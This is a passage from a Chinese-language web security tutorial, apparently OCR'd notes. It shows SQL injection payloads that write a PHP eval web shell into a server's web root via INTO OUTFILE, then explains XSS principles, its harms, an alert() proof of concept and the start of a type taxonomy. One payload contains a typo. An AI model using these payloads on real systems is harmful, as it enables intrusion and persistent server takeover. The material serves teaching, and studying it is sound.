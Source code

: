
> 写文件 into outfile

```http
?id=1 and 1=2 union select 1,2,3 into outfile "c:/phpstudy_2016/www/1.php"

?id=1 nd 1=2 union select 1,"<?php @eval($_REQUEST[777]);phpinfo()?>",3 into outfile "/var/www/html/1.php"
```

---





# XSS 跨站脚本攻击

## XSS原理

> XSS原理

XSS 通过将js代码注入到网页中，并由浏览器解释运行这段JS 代码，以达到恶意攻击的效果。

当用户访问被XSS 脚 本注入过的网页，XSS 脚本就会被提取出来，用户浏览器就会解析执行这段代码，也就是说用户被攻击了。

整个XSS 攻击过程，涉及三个角色： 服务器 、 攻击者 、客户端浏览器用户（前端）

>  XSS 漏洞危害

1. 盗取各种用户账号；
2.  窃取用户Cookie 资料，冒充用户身份进入网站；
3.  劫持用户会话执行任意操作；
4.  刷流量，执行弹窗广告； 
5. 传播蠕虫病毒；
6. ...

---

> XSS 漏洞验证

可以使用一段简单的代码，验证和检测漏洞的存在，这样的代码叫做POC（Proof of Concept）。验证XSS 漏洞存在的POC 

如果页面弹窗，浏览器把用户提交的字符串当做JS 来执行，并且执行成功，说明XSS 漏洞存在

```javascript
<script>alert(/xss/);</script>
```

---

## XSS 漏洞分类

反射型、存储型、DOM型

> 反射型XSS

非持久性、参数型的跨站脚本。反射型XSS 的代码在Web 应用的参数中，例如搜索框的反射型XSS。一旦离开就结束了；
